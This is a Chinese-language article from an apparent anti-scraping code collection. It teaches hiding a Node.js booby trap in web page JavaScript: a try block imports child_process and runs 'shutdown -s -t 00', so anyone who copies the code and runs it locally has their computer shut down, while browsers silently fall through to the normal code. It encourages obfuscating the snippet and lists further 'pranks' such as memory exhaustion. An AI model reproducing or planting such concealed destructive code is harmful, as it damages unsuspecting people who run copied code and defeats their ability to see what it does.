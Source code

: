 <a name="NaQRy"></a>
# 文案
让扣你代码的人电脑关机，赶紧学起来。<br />众所周知。<br />浏览器中无法导入模块，会报错。<br />nodejs中可以导入模块。<br />那么我们可以在导入语句后加入整蛊代码。<br />在捕获异常后执行正常的代码。<br />那么代码在浏览器中就会正常执行，而当你在本地环境中执行的时候就会电脑关机。<br />我们给出的都是直接的代码，我们也可以将代码混淆，得到这样的效果，完全看不懂，但是运行也会达到同样的效果。<br />简略版详细注释版代码，关机和重启代码均可在我的github中找到。<br />FuckSpider是一个反爬虫策略讲解与存放代码示例的仓库。<br />所有关于反爬策略的文章代码都会放在这里。

相关的用法还有很多，检测手段有刚才的导入语句错误，还有格式化检测，打开控制台检测，整蛊手段还有内存爆破，重定向，关闭浏览器等。这些检测与整蛊手段有的可以搭配使用，大家仁者见仁，有好的想法可以在评论区讨论哟。

```javascript
try{
  // 导入语句
    console.log('这里执行了导入语句');
    const { exec } = require('child_process');
  // 整蛊代码，比如关机代码
    console.log('这里执行了关机代码');
  }catch{
// 正常代码
    console.log('这里执行了业务所需的正常代码');
}
```
```javascript
try{
  // 导入语句
  // 整蛊代码，比如关机代码
  const { exec } = require('child_process');
  function shutdownWindow() {
  	let command = exec('shutdown -s -t 00', function(err, stdout, stderr) {
          if(err || stderr) {
              console.log("关机失败！" + err + stderr);
          }
      });
      command.stdin.end();
      command.on('close', function(code) {
          console.log("shutdown",  code);
      });
  }
  shutdownWindow();
}catch{
// 正常代码
  console.log('这里执行了业务所需的正常代码');
}
```

<a name="AdTLg"></a>
# 素材
<a name="ZBFQe"></a>
## 浏览器导入包失败
![image.png](https://cdn.nlark.com/yuque/0/2024/png/38536969/1710951029605-383edfd3-8a85-4eff-8f2e-0b6b666d341a.png#averageHue=%23ddbf92&clientId=uc4618826-29b9-4&from=paste&height=606&id=uH42s&originHeight=758&originWidth=1779&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=282785&status=done&style=none&taskId=u0640deb4-a09a-4781-a2d8-f62fcff5835&title=&width=1423.2)
<a name="u48et"></a>
## nodejs导入包成功
![image.png](https://cdn.nlark.com/yuque/0/2024/png/38536969/1710951113409-fd34a642-2944-48b5-910f-4bed7b4a6049.png#averageHue=%23e7d09f&clientId=uc4618826-29b9-4&from=paste&height=522&id=qlGAn&originHeight=653&originWidth=1129&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=44913&status=done&style=none&taskId=u3fb9f6a4-0211-405f-811c-4a438fbb5e2&title=&width=903.2)
<a name="fxSyv"></a>